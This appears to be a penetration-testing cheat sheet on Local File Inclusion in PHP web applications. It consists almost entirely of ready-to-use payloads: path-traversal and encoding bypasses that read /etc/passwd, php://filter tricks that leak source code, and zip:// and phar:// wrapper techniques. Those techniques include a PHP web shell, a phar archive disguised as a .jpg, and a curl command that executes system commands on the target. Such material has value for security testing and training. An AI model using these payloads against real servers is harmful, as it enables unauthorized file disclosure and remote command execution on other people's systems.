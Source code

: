 ```yaml
---
description: >-
  an attacker may manipulate these parameters to display the content of any
  local file on the hosting server, leading to a Local File Inclusion (LFI)
  vulnerability.
---
```


# LFI

#### Wordlists

* [https://github.com/emadshanab/LFI-Payload-List](https://github.com/emadshanab/LFI-Payload-List)
* [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

#### Basic payloads

```bash
# Basic LFI
/index.php?language=/etc/passwd

# Path traversal
/index.php?language=../../../../etc/passwd

# Name prefix
/index.php?language=/../../../etc/passwd

# Appproved Path
/index.php?language=./languages/../../../../etc/passwd
```

#### Bypasses

```bash
# Basic bypass
/index.php?language=....//....//....//....//etc/passwd

# URL encoded
/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

# Appended extension
/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]

# Null byte
/index.php?language=../../../../etc/passwd%00

# Read base64 with php filter
/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

### PHP wrappers



{% hint style="info" %}
Its possible to use a .zip file  and use the phar wrapper. Create a .php file with a payload and zip it. Then upload /?page=phar://uploads/payload.zip/payload\&cmd=id&#x20;
{% endhint %}

<details>

<summary>zip://</summary>

Wen upload file is possible

```bash
# Create payload
echo "<?php system($_GET['cmd']); ?>" > payload.php
# Zip zip payload.zip payload.php
zip payload.zip payload.php

# Execute commands
/?page=zip://uploads/payload.zip/payload.php&cmd=id 
# Could be possible without extension
/?page=zip://uploads/payload.zip/payload&cmd=id 
```

</details>

<details>

<summary>phar://</summary>

Uploading files is needed

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile script into .phar file

```php
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Trigger filie

```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

</details>

For more wrappers:

[https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)
